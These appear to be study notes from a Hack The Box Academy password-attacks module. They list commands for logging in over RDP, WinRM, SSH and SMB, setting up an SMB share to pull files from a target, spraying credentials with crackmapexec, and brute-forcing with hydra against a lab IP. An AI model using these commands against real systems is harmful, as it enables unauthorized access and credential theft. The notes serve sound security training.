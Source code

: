 # Password Attacks

![Untitled](Password%20Attacks/Untitled.png)

# **Network Services**

| Command                                                                  | Description                                                                                                                                     |
| ------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| xfreerdp /v:<ip> /u:htb-student /p:HTB\_@cademy_stdnt!                   | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.                                                           |
| evil-winrm -i <ip> -u user -p password                                   | Uses Evil-WinRM to establish a Powershell session with a target.                                                                                |
| ssh user@<ip>                                                            | Uses SSH to connect to a target using a specified user.                                                                                         |
| smbclient -U user \\\\<ip>\\SHARENAME                                    | Uses smbclient to connect to an SMB share using a specified user.                                                                               |
| python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/ | Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

- `CrackMapExec` (no longer maintained) `netexec` is recommended
  - `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`
    `crackmapexec winrm 10.129.42.197 -u user.list -p password.list` to get username and password
  - `crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares` to view available shares and what privileges we have
- **`Evil-WinRM` communicate with `winrm` service**
  - `evil-winrm -i <target-IP> -u <username> -p <password` if credentials are correct, terminal session is initialized using PowerShell Remoting Protocol (MS-PSRP)
- `Hydra` brute forcing tool
  - `hydra -L user.list -P password.list ssh://10.129.42.197`
  - `hydra -L user.list -P password.list rdp://10.129.42.197`
  - `hydra -L user.list -P password.list smb://10.129.42.197`
